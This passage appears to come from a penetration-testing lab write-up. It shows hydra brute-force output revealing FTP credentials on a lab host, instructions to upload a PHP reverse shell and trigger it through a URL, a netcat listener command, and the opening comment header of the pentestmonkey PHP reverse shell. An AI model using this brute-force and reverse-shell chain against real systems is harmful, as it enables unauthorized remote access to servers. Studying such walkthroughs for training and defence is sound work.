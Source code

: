 ```bash
[STATUS] 1799.33 tries/min, 113358 tries in 01:03h, 306769 to do in 02:51h, 30 active
[STATUS] 1870.38 tries/min, 147760 tries in 01:19h, 272367 to do in 02:26h, 30 active
[STATUS] 1921.68 tries/min, 182560 tries in 01:35h, 237567 to do in 02:04h, 30 active
[40121][ftp] host: 172.16.37.234   login: ftpuser   password: ftpuser
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
**Found credentials for ftp server through hydra: ftpuser/ftpuser**

Now that we have access to the ftp, **we can upload a PHP reverse shell**, and invoke it by opening this URL in your browser: [**http://172.16.37.234:40180/xyz/rev-shell.php**](http://172.16.37.234:40180/xyz/rev-shell.php)\*\*\*\*
{% endhint %}

{% tabs %}
{% tab title="Netcat Listener (local machine)" %}
```
nc -l 1234
```
{% endtab %}

{% tab title="PHP Reverse Shell" %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
```